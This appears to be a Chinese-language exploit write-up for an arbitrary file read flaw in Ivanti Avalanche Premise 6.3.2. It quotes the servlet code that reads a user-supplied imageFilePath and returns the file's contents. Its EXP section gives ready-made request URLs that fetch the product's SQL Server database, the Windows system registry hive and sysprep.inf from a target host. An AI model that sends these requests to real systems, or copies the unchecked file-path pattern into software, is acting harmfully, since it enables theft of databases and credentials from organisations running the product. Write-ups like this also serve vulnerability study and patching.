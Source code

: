 # Ivanti Avalanche目录便利任意文件漏洞读取.md

## 漏洞描述

Ivanti Avalanche是美国Ivanti公司的一套企业移动设备管理系统。该系统主要用于管理智能手机、平板电脑等设备。该漏洞存在于读取存储的头像图片位置，未进行限制格式与目录，造成了任意文件读取。

## 漏洞影响

> Avalanche Premise 6.3.2 for Windows v6.3.2.3490

## 关键代码

```
String paramImageFilePath = request.getParameter("imageFilePath"); // vulnerable GET parameter
boolean cacheImage = true;
String parameterIcon = request.getParameter("icon");
if (paramImageFilePath != null) {
  File imageFile = new File(paramImageFilePath); // reading from user-input path
  byte[] icon = FileUtils.readFileToByteArray(imageFile);
  String queryString = request.getQueryString();
  if (icon != null && icon.length > 0) {
    handleIcon(response, icon, queryString, false); // outputting the contents
  } else {
    logger.warn(String.format("ImageServlet::missing icon for device(%s)", new Object[] {
      queryString
    }));
  }
...
private void handleIcon(HttpServletResponse response, byte[] icon, String imageSource, boolean cacheImage) throws IOException {
    response.setContentLength(icon.length);
    if (cacheImage) {
      HttpUtils.expiresOneWeek(response);
    } else {
      HttpUtils.expiresNow(response);
    }
    ImageInputStream inputStream = ImageIO.createImageInputStream(new ByteArrayInputStream(icon));
    try {
      Iterator < ImageReader > imageReaders = ImageIO.getImageReaders(inputStream);
      if (imageReaders.hasNext()) {
        ImageReader reader = imageReaders.next();
        String formatName = reader.getFormatName();
        response.setContentType(String.format("image/%s", new Object[] {
          formatName
        }));
      } else {
        logger.warn(String.format("ImageServlet::unknown image format for (%s)", new Object[] {
          imageSource
        }));
      }
    } finally {
      try {
        inputStream.close();
      } catch (IOException iOException) {}
    }
    ServletOutputStream outputStream = response.getOutputStream();
    outputStream.write(icon); // outputting the contents of the file
  }
```

从代码中可以看出文件的访问没有限制到存储位置，允许远程攻击者为在其他地方的文件提供完整的路径并检索其内容。

## EXP

访问路径https://IP:8443/AvalancheWeb/image?imageFilePath=即可，例如下载DB，如下：

```
https://IP:8443/AvalancheWeb/image?imageFilePath=C:/Program Files/Microsoft SQL Server/MSSQL11.SQLEXPRESS/MSSQL/DATA/Avalanche.mdf
```

```
https://IP:8443/AvalancheWeb/image?imageFilePath=C:/Windows/system32/config/system.sav
```

```
https://IP:8443/AvalancheWeb/image?imageFilePath=C:/sysprep/sysprep.inf
```



